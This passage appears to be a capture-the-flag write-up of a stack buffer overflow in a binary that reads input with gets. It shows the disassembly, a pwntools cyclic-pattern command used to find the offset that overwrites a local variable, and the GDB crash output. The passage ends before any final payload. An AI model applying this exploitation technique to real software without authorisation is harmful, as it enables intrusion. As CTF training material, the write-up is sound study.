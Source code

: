The disassembly showed:
```
   0x00000000004006c7 <+0>:     push   rbp
   0x00000000004006c8 <+1>:     mov    rbp,rsp
   0x00000000004006cb <+4>:     sub    rsp,0x110
   0x00000000004006d2 <+11>:    mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004006da <+19>:    mov    rax,QWORD PTR [rip+0x20197f]        # 0x602060 <stdout@@GLIBC_2.2.5>
   0x00000000004006e1 <+26>:    mov    esi,0x0
   0x00000000004006e6 <+31>:    mov    rdi,rax
   0x00000000004006e9 <+34>:    call   0x4005a0 <setbuf@plt>
   0x00000000004006ee <+39>:    mov    rax,QWORD PTR [rip+0x20197b]        # 0x602070 <stdin@@GLIBC_2.2.5>
   0x00000000004006f5 <+46>:    mov    esi,0x0
   0x00000000004006fa <+51>:    mov    rdi,rax
   0x00000000004006fd <+54>:    call   0x4005a0 <setbuf@plt>
   0x0000000000400702 <+59>:    mov    rax,QWORD PTR [rip+0x201977]        # 0x602080 <stderr@@GLIBC_2.2.5>
   0x0000000000400709 <+66>:    mov    esi,0x0
   0x000000000040070e <+71>:    mov    rdi,rax
   0x0000000000400711 <+74>:    call   0x4005a0 <setbuf@plt>
   0x0000000000400716 <+79>:    mov    rax,QWORD PTR [rip+0x201933]        # 0x602050 <HEADER>
   0x000000000040071d <+86>:    mov    rdi,rax
   0x0000000000400720 <+89>:    call   0x400590 <puts@plt>
   0x0000000000400725 <+94>:    lea    rdi,[rip+0x69d]        # 0x400dc9
   0x000000000040072c <+101>:   call   0x400590 <puts@plt>
   0x0000000000400731 <+106>:   lea    rdi,[rip+0x6ac]        # 0x400de4
   0x0000000000400738 <+113>:   call   0x400590 <puts@plt>
   0x000000000040073d <+118>:   lea    rax,[rbp-0x110]
   0x0000000000400744 <+125>:   mov    rdi,rax
   0x0000000000400747 <+128>:   mov    eax,0x0
   0x000000000040074c <+133>:   call   0x4005d0 <gets@plt>
   0x0000000000400751 <+138>:   mov    eax,0xdeadbeef
   0x0000000000400756 <+143>:   cmp    QWORD PTR [rbp-0x8],rax
   0x000000000040075a <+147>:   jne    0x40078c <main+197>
   0x000000000040075c <+149>:   mov    esi,0xdeadbeef

```
From the cmp QWORD PTR [rbp-0x8], eax line I understood the code variable is stored at [rbp-0x8], so to get the flag I had to overwrite that saved stack slot. To find the offset I used pwntools to generate a cyclic pattern:
```
python3 -c "from pwn import cyclic; open('pat','wb').write(cyclic(600))"
```

This command creates a file named pat containing a 600-byte unique pattern. I passed this file to the binary in GDB and triggered a segmentation fault, then inspected the registers:
```
(gdb) run < pat
...
code == 0x6361617263616171
code != 0xdeadbeef :(

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007c0 in main ()
(gdb) info registers
...
rbp            0x6361617463616173  0x6361617463616173
...
```
